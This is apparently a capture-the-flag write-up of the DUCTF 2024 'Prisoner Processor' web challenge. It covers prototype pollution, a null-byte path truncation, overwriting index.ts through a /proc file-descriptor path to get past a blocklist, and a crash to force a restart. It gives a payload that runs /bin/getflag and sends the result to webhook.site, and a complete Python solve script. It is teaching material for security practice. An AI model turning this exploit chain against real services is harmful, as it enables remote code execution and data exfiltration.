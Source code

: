 ```yaml
---
created: 2024-07-07T02:38
updated: 2024-07-07T03:57
title: Prisoner Processor
---
```


## Analysis

```ts [index.ts]
const getSignedData = (data: any): any => {
  const signedParams: any = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};
```

- This is vulnerable to prototype pollution.
- Only parameters starting with `signed.` are checked for signature.

```ts
const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

- `outputPrefix` is not defined anywhere, it is our target for pollution.

```ts
const json = JSON.parse(readFileSync(fullPath).toString());
prisoners.push({
  data: json,
  signature: getSignature(getSignedData(json))
});
```

- We can use the examples to build our payload upon.

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

- This is inviting a crush.
## Attack

### Custom File Name

By polluting `outputPrefix` we can change the output file.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "hewwo\u0000"
}
# {"msg":"hewwo\u0000-5595316e6c23eddd.yaml"}
```

It worked, use null terminator to end the file path prematurely to get rid of the suffix.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720335471/2024/07/a83e996f9b627e9eb808b892a746556f.png)

### Overwrite index.ts

```ts
const BANNED_STRINGS = [
  "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];
```

Everything is great but how do we escape the blacklist?

> My teammate @spipm, was the one who came up with the exact execution of the bypass..
> I got stuck playing with path traversal.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "../../proc/9/fd/3\u0000"
}
```

You can find `/proc` targets via the following command.

```sh
$ find /proc -type l -ls | grep index.ts
find: '/proc/tty/driver': Permission denied
   5107188      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/9/fd/3 -> /app/src/index.ts
   5090100      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/18/fd/3 -> /app/src/index.ts
   5090164      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/19/fd/3 -> /app/src/index.ts
   5090228      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/20/fd/3 -> /app/src/index.ts
   5090292      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/21/fd/3 -> /app/src/index.ts
   5106740      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/22/fd/3 -> /app/src/index.ts
   5106804      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/23/fd/3 -> /app/src/index.ts
   5106868      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/24/fd/3 -> /app/src/index.ts
   5106932      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/26/fd/3 -> /app/src/index.ts
   5106996      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/28/fd/3 -> /app/src/index.ts
   5107060      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/30/fd/3 -> /app/src/index.ts
   5107124      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/31/fd/3 -> /app/src/index.ts
   5106453      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/fd/3 -> /app/src/index.ts
find: '/proc/91/task/91/fd/5': No such file or directory
find: '/proc/91/fd/6': No such file or directory
```

### Payload

```python
{
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}
```

- We replace `index.ts` with our generated yml file.
- For our yml to run as js, we use block comments to comment out everything in-between and the last quote.
- Send the flag to our webhook.
- Crash the script so it will be restarted by `start.sh`.

## Solve Script

```python
import requests
s = requests.Session()
target = "https://web-prisoner-processor-3bdc15af869668aa.2024.ductf.dev"
# target = "http://localhost:1337"
d = s.get(f"{target}/examples")
sign = d.json()['examples'][0]['signature']

d = {'data': {
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}, 'signature': sign}

r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
d['data']['signed.__proto__']['outputPrefix'] = "../../../ap\\p/sr\\c/owo-crusher-owo\u0000"
r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
# {"msg":"../../proc/9/fd/3\u0000-f8af8a2374745bb5.yaml"}
# {"msg":"../../../ap\\p/sr\\c/owo-crusher-owo\u0000-afead8be95834c3e.yaml"}

# DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}
```

Again, thanks to my teammate @spipm.
The above solve script is heavily inspired by his.
The halting payload was by my own findings though, (you can probably guess why).
